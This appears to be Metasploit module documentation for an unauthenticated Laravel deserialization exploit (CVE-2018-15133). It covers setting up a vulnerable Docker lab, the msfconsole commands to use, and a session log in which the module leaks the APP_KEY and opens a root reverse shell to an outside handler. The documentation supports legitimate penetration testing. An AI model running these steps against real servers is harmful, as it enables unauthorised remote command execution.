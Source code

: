 ## Vulnerable Application

[Laravel](https://laravel.com/) is an actively-maintained PHP Framework web development suite

This module exploits an unauthenticated vulnerability that allows for PHP object deserialization and command execution

The vulnerability was discovered by [Ståle Pettersen](https://github.com/kozmic/laravel-poc-CVE-2018-15133)
Also uses https://nvd.nist.gov/vuln/detail/CVE-2017-16894 to check for a leaked key.
Finally checks for another leaked key method which may not be known and perhaps 0day?


### Setting up Laravel on Debian

- `git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133`
- Edit Dockerfile and change `sed -i -e 's/5.7.\*/5.6.29/g'` to `sed -i -e 's/5.8.\*/5.6.29/g'` (needs to be 5.8 as 5.7 is removed from mirror)
- `docker build -t laravel-poc-cve-2018-15133 .`
- `docker run -d -p 8000:8000 laravel-poc-cve-2018-15133`

## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/laravel_token_unserialize_exec`
- `set RHOST 1.2.3.4`
- `set RPORT 8000` (for Docker image)
- `set APP_KEY base64_string` (optional)
- `set VERBOSE true` (optional)
- `check`
- `exploit`

## Scenarios

```
msf5 > use exploit/unix/http/laravel_token_unserialize_exec
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 1.2.3.4
RHOSTS => 1.2.3.4
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RPORT 8000
RPORT => 8000
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set VERBOSE true
VERBOSE => true
msf5 exploit(unix/http/laravel_token_unserialize_exec) > check

[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[+] 1.2.3.4:8000 - The target is vulnerable.
msf5 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[-] Handler failed to bind to 1.2.3.1:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[*] Command shell session 1 opened (1.2.3.1:4444 -> 1.2.3.4:48772) at 2019-07-06 12:41:31 +1000
id

uid=0(root) gid=0(root) groups=0(root)
```
